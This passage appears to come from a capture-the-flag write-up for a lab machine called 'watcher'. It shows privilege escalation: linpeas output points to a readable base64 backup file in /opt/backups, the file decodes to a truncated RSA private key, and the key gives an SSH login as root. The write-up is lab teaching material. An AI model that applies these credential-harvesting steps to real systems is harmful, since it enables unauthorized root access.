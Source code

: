 ### 3.4 Vertical PrivEsc

![Transferring files to the remote machine using python http server](https://i.imgur.com/SPVaaSW.png)

I did same for linpeas (my fav).

```
[+] Readable files belonging to root and readable by me but not world readable
-rw-rw---- 1 root adm 2270 Dec  3 02:04 /opt/backups/key.b64                                                                                                            
-rw-r----- 1 root adm 21919802 May 25 16:59 /var/log/apache2/access.log
-rw-r----- 1 root adm 29610 May 25 16:59 /var/log/apache2/error.log
-rw-r----- 1 root adm 0 Dec  3 01:39 /var/log/apache2/other_vhosts_access.log
-rw-r----- 1 root adm 28898 Dec 12 15:23 /var/log/apt/term.log

```

First file looks interesting. Lesse

```
will@watcher:/home/will$ cat /opt/backups/key.b64
LS0tLS1CRUdJTiBSU0EgUFJJVkFURSBLRVktLS0tLQpNSUlFcEFJQkFBS0NBUUVBelBhUUZvbFFx
...
LUVORCBSU0EgUFJJVkFURSBLRVktLS0tLQo=
```
Looks like a id_rsa key format. Decoding base64, we get a private key!

```
┌──(kali㉿kali)-[/tmp]
└─$ ssh -i id_rsa root@10.10.157.202
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-128-generic x86_64)

...

Last login: Thu Dec  3 03:25:38 2020
root@watcher:~#
```

System fully compromised!

